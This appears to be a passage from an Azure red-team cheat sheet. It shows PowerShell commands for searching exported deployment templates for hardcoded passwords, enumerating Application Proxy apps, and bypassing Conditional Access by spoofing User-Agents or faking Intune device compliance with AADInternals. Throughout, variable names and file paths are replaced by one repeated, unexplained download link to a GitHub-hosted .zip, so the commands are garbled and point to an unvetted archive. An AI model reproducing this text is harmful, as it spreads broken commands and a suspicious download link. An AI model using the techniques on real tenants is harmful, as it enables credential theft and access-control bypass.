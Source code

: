 ## Deployment Template

```powershell
PS Az> Get-AzResourceGroup
PS Az> Get-AzResourceGroupDeployment -ResourceGroupName SAP

# Export
PS Az> Save-AzResourceGroupDeploymentTemplate -ResourceGroupName <RESOURCE GROUP> -DeploymentName <DEPLOYMENT NAME>
cat <DEPLOYMENT NAME>.json # search for hardcoded password
cat <PATH TO .json FILE> | Select-String password
```

## Application Proxy

```powershell
# Enumerate application that have Proxy
PS C:\Tools> Get-AzureADApplication | %{try{GetAzureADApplicationProxyApplication -ObjectId $https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip;$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip;$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip}catch{}}
PS C:\Tools> Get-AzureADServicePrincipal -All $true | ?{$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -eq "Finance Management System"}
PS C:\Tools> . C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS C:\Tools> Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT-ID>
```

## Conditional Access

* Bypassing conditional access by copying User-Agent (Chrome Dev Tool > Select iPad Pro, etc)
* Bypassing conditional access by faking device compliance
    ```powershell
    # AAD Internals - Making your device compliant
    # Get an access token for AAD join and save to cache
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    # Join the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
    # Marking device compliant - option 1: Registering device to Intune
    # Get an access token for Intune MDM and save to cache (prompts for credentials)
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -SaveToCache 
    # Join the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "SixByFour"
    # Start the call back
    Start-AADIntDeviceIntuneCallback -PfxFileName .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -DeviceName "SixByFour"
    ```
